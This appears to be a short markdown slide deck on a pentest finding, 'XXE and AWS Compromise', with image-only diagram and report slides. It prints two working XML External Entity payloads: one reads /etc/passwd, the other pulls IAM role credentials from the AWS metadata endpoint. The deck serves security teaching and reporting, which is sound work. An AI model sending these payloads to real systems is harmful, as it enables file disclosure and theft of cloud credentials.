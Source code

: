 # XXE and AWS Compromise

---

## @fa[book](Background)
![diagram](xxe-aws-compromise/assets/diagram1.png)

---

## @fa[code](XML Entities)
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>

<foo>&xxe;</foo>
```

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln1.png)

---

## @fab[aws](AWS Metadata)
```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-iam-role" >
]>

<foo>&xxe;</foo>
```

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln2.png)
